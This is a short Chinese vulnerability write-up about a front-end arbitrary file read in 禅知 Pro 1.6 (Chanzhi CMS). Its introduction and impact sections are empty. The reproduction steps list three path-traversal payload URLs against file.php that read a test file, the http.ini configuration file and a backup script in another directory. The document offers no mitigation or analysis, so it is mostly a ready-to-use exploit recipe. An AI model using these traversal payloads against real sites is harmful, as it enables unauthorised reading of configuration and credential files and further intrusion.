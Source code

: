 禅知 Pro 1.6 前台任意文件读取
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在网站根目录C:\\xampp\\chanzhi\\www新建一个测试文件test.php

![](./resource/禅知Pro1.6前台任意文件读取/media/rId24.png)

执行payload查看文件内容：

    http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source

![](./resource/禅知Pro1.6前台任意文件读取/media/rId25.png)

执行payload来查看程序的配置文件：

    http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source

![](./resource/禅知Pro1.6前台任意文件读取/media/rId26.png)

跨目录读取文件（前提是有目录权限）：

    http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source
